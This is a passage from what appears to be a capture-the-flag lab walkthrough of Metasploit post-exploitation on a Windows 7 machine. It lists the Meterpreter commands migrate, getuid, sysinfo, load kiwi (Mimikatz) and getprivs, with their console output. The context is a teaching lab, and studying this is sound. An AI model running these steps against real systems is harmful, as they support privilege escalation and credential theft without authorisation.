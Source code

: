 `spoolsv.exe`

2. Let's go ahead and move into the spool process or at least attempt to! What command do we use to transfer ourselves into the process? This won't work at the current time as we don't have sufficient privileges but we can still try!

`migrate`

3. Well that migration didn't work, let's find out some more information about the system so we can try to elevate. What command can we run to find out more information regarding the current user running the process we are in?

```
meterpreter > getuid
Server username: Dark-PC\Dark
```

`getuid`

4. How about finding more information out about the system itself?

```
meterpreter > sysinfo
Computer        : DARK-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```

`sysinfo`

5. This might take a little bit of googling, what do we run to load mimikatz (more specifically the new version of mimikatz) so we can use it? 

```
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x86/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

[!] Loaded x86 Kiwi on an x64 architecture.

Success
```

`load kiwi`

6. Let's go ahead and figure out the privileges of our current user, what command do we run?

```
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```
